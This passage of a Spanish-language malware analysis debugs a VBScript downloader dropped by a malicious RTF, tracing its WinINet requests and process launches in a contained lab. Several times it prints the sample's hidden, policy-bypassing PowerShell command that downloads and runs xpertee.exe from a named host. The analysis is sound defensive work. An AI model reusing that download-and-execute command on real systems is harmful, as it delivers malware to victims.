Para observar el comportamiento del script a nivel de API, se ejecuta `wscript.exe` bajo `x64dbg` con el script corregido como argumento:
``` 
C:\Windows\System32\wscript.exe "C:\Users\usuario\Desktop\salida\salida-corregido.vbs"
```

-------

**Donde `wscript.exe` está abriendo el script que le hemos pasado por línea de comandos:**  



--------

**Conexión HTTP con WinINet:**
Obtenemos una evidencia clara de conexión de red desde el script:




Estamos en:
``` 
wininet.dll!InternetConnectW
```
y los argumentos muestran:
```
RDX → "eddyholdingshuttle.co.za"
R8  → 0x50
```
`0x50` en hexadecimal es `80` en decimal, es decir, `HTTP`.

Interpretación:
```
wscript.exe
 → wininet.InternetConnectW
 → servidor: eddyholdingshuttle.co.za
 → puerto: 80
```
Esto confirma a nivel de API que el script no sólo contiene la URL, sino que llama a `WinINet` para abrir una conexión `HTTP` contra el dominio malicioso.

------------

**Confirmamos el método `HTTP` y el recurso solicitado a nivel de `API WinINet`:**




Estamos parado en:
```
wininet.dll!HttpOpenRequestW
```
y los argumentos muestran:
```
RDX → "GET"
R8  → "/i/xpertee.exe"
```
Es decir:
```
wscript.exe
 → InternetConnectW("eddyholdingshuttle.co.za", 80)
 → HttpOpenRequestW("GET", "/i/xpertee.exe")
```
Esto confirma en `x64dbg` exactamente lo mismo que vimos en `Wireshark`, pero desde dentro del proceso:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```

----------

**Confirmamos que la petición `HTTP` ya no sólo está preparada, sino que se está enviando:**



Estamos en:
```
wininet.dll!HttpSendRequestW
```
La secuencia confirmada en x64dbg queda:
```
wscript.exe
 → InternetConnectW("eddyholdingshuttle.co.za", 80)
 → HttpOpenRequestW("GET", "/i/xpertee.exe")
 → HttpSendRequestW(...)
```
Es decir, el script corregido:
```
1. Resuelve/conecta con eddyholdingshuttle.co.za por HTTP.
2. Prepara una petición GET para /i/xpertee.exe.
3. Envía la petición al servidor.
```

-------

**WinINet / el motor de descarga usado por el script está creando o abriendo el fichero descargado en la caché de Internet Explorer:**


Vemos en la pila la URL:
```
http://eddyholdingshuttle.co.za/i/xpertee.exe
```
y el retorno hacia:
```
wininet.InternetQueryDataAvailable
```

Flujo: `wscript.exe → WinINet → descarga HTTP → creación de fichero temporal/cache xpertee[1].exe`.

------

En este breakpoint, anotamos la ruta xpertee[1].exe.

Pulsamos  `Ctrl+F9` para ejecutar hasta el retorno de `CreateFileW`.



Miramos RAX que es el handle si la llamada tuvo éxito: `RAX = 0000000000000558`. Eso significa que CreateFileW ha devuelto un handle válido al fichero que acababa de abrir/crear. Ese handle 0x558 corresponde al fichero de caché:
```
C:\Users\usuario\AppData\Local\Microsoft\Windows\INetCache\IE\BZWF0QUM\xpertee[1].exe
```

Confirmamos en x64dbg:
```
wscript.exe / WinINet → CreateFileW → xpertee[1].exe en INetCache
```

-------

**Confirmamos que `wscript.exe` ya está leyendo la respuesta `HTTP`:**




Estmos en:
```
wininet.dll!InternetReadFile
```
y los argumentos relevantes son:
```
RCX = hInternet
RDX = buffer donde se copiarán los datos leídos
R8  = tamaño máximo a leer
R9  = puntero a número de bytes leídos
```

En la captura que vemos:
```
RDX = 000000B4B756B960
R8  = 0x38
```
Donde `0x38` son `56` bytes, que coincide con el tamaño del fichero fake que sirve el servidor web python.

-----------

**Estando parados en ese punto, pulsamos `Ctrl + F9` para volver de `InternetReadFile`:**



Comprobamos que ha tenido éxito la operación ya que `RAX != 0`. Eso significa que `InternetReadFile` ha tenido éxito.

Tambien vemos en el dump el contenido leido por `InternetReadFile`:
```
FAKE_PAYLOAD_FOR_ANALYSIS
```

Esto confirma a nivel de depurador que `wscript.exe` no sólo envió la petición `HTTP`, sino que recibió el contenido del fichero servido como `xpertee`.exe.

---------


**Vemos como wscript.exe lanza PowerShell:**  



Estamos parados en:
```
kernelbase.CreateProcessW
```
y se ven los argumentos principales:
```
RCX = lpApplicationName
RDX = lpCommandLine
```
En la captura:
```
RCX → C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
RDX → L"\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command \"(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe');Start-Process 'C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe'\""
```

Esto confirma que el script corregido no sólo descarga vía wscript.exe/WinINet, sino que también intenta lanzar PowerShell con los parámetros ofuscados/ocultos que habíamos visto en el código:
```
-NoP
-sta
-NonI
-W Hidden
-ExecutionPolicy bypass
``` 

---------


**Primera petición `HTTP GET`:**   



----------

**Comprobamos si tiene éxito:**  Estando parado en ese punto, pulsamos `Ctrl+F9` para volver de `CreateProcessW` y miramos `RAX`. Si vale `!=0` entonces es que ha tenido éxito:



Comprobamos que `RAX = 0000000000000001`, luego ha tenido éxito. 


--------------

**Parece que crea más cosas de las que nos esperabamos:**



El script no sólo descarga `xpertee.exe`, también contiene lógica adicional para crear un `.cmd`. En la captura de x64dbg estamos detenidos en:
```
kernelbase.CreateFileW
```
y el argumento RCX apunta a:
```
C:\ProgramData\hrjytrj.cmd
```
Además, en el Explorador se ve el fichero:
```
C:\ProgramData\hrjytrj.cmd
Tipo: Script de comandos
Tamaño: 0 KB
```

-----------

**Comprobamos si el paso anterior tiene éxito:** Pulsamos `Ctrl+F9` y miramos `RAX`:  



```
RAX = 00000000000006F8
```

Ha tenido éxito. Avanzamos un poco y vamos a intentar ver qué escribe en ese fichero.


---------


**Invocación de PowerShell**  
Vemos la command line completa antes de lanzar PowerShell:



Estamos parados en:
```
shell32.dll!ShellExecuteExW
```
y en los argumentos se aprecia:
```
L"PowerShell"
L"-NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command \"(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe');Start-Process 'C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe'\""
```

Durante la depuración con x64dbg se interceptó una llamada de `wscript.exe` a `shell32.dll!ShellExecuteExW`. Los parámetros de la llamada muestran la ejecución de `PowerShell` con los argumentos `-NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo`. La línea de comandos construida incluye `(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\Users\usuario\AppData\Roaming\xpertee.exe');Start-Process 'C:\Users\usuario\AppData\Roaming\xpertee.exe'`, confirmando que el script intenta descargar la segunda etapa en `%APPDATA%` y ejecutarla posteriormente.


----------


**A veces se lanza una segunda petición `HTTP GET`:**
<mark>El script contiene dos vías de descarga hacia el mismo recurso. En una ejecución completa pueden observarse dos peticiones GET, pero la segunda debe confirmarse con tráfico de powershell.exe o evidencia equivalente.</mark>




El análisis del script `.vbs` confirma dos mecanismos de descarga, por lo que puede producir dos peticiones `HTTP GET` al mismo recurso, aunque no necesariamente en todos los entornos o ejecuciones. Hay veces que sólo hace una petición y en otra depuración del script hace las dos.

Hay dos rutas claras:
1. Descarga directa desde `VBScript/MSXML2.XMLHTTP`: El script crea un objeto `msxml2.xmlhttp.3.0`, abre una petición con método `GET` hacia `strlink` y luego ejecuta el envío:
```
objhtxtpdownload.open "get " , strlink, anny
objhtxtpdownload.send
```
Esto corresponde a la cadena que vimos en x64dbg con `WinINet`:
```
InternetConnectW → eddyholdingshuttle.co.za:80
HttpOpenRequestW → GET /i/xpertee.exe
HttpSendRequestW
InternetReadFile
```

2. Descarga secundaria mediante `PowerShell/WebClient`: El script construye una línea de PowerShell con:
```
(New-Object System.Net.WebClient).DownloadFile('<URL>', '%appdata%\xpertee.exe');
Start-Process '%appdata%\xpertee.exe'
```


-----------------

**El script termina.**


--------------

# **10. Conclusiones**

El análisis dinámico confirma que el documento RTF es malicioso y que activa una cadena de ejecución basada en la extracción de un scriptlet .sct, cuyo objetivo es descargar y ejecutar una segunda etapa denominada xpertee.exe.

Durante la apertura del RTF se observó que WINWORD.EXE crea el fichero temporal:
```
C:\Users\usuario\AppData\Local\Temp\Abctfhghgdghghž.scT
```
ProcMon confirmó que WINWORD.EXE realiza operaciones CreateFile y WriteFile sobre dicho fichero. Posteriormente, Word consulta la asociación de la extensión .sct en el registro, identificada como scriptletfile y text/scriptlet, y finalmente marca el fichero para eliminación mediante:
```
SetDispositionInformationEx
FILE_DISPOSITION_DELETE
```
Esto explica que el .sct no permaneciera en disco tras la ejecución. El watcher permitió capturarlo antes de su borrado.

El contenido capturado y sanitizado del .sct confirma que se trata de un downloader VBScript/scriptlet ofuscado. El script utiliza ExecuteGlobal, MSXML2.XMLHTTP, ADODB.Stream, WScript.Shell, decodificación Base64 y construcción dinámica de comandos. Las cadenas decodificadas identifican la URL de descarga y el nombre de la segunda etapa: hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe y xpertee[.]exe.

Durante la prueba controlada se modificó el fichero hosts de la VM para redirigir eddyholdingshuttle.co.za hacia la propia máquina. Wireshark confirmó la petición HTTP:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```
Tras servir un fichero dummy como xpertee.exe, el servidor local respondió HTTP/1.0 200 OK, y se verificó la descarga del fichero en:
```
C:\Users\usuario\AppData\Roaming\xpertee.exe
```
La depuración con x64dbg permitió confirmar a nivel de API la rama de descarga desde wscript.exe:
```
InternetConnectW → eddyholdingshuttle.co.za:80
HttpOpenRequestW → GET /i/xpertee.exe
HttpSendRequestW → envío de la petición
InternetReadFile → recepción del contenido dummy
```
Además, se identificó un segundo mecanismo de descarga construido por el script: wscript.exe invoca PowerShell mediante ShellExecuteExW con una línea de comandos que utiliza System.Net.WebClient.DownloadFile para descargar de nuevo xpertee.exe en %APPDATA% y posteriormente ejecutarlo con Start-Process.

La línea observada es equivalente a:
```
powershell.exe -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command "(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\Users\usuario\AppData\Roaming\xpertee.exe');Start-Process 'C:\Users\usuario\AppData\Roaming\xpertee.exe'"
```


Por tanto, el script contiene dos vías de descarga hacia el mismo recurso:
```
1. MSXML2.XMLHTTP / WinINet desde wscript.exe
   → GET /i/xpertee.exe

2. PowerShell / System.Net.WebClient.DownloadFile
   → posible segunda petición GET a /i/xpertee.exe
```

En conclusión, la muestra debe clasificarse como RTF malicioso con objeto embebido que despliega un scriptlet downloader. El análisis confirma la extracción del .sct, su eliminación temporal, la comunicación HTTP con la infraestructura configurada, la descarga controlada de xpertee.exe y la existencia de una segunda vía de descarga mediante PowerShell/WebClient. La ejecución de una segunda etapa maliciosa real no fue evaluada; se sustituyó por un payload dummy para mantener la prueba contenida.
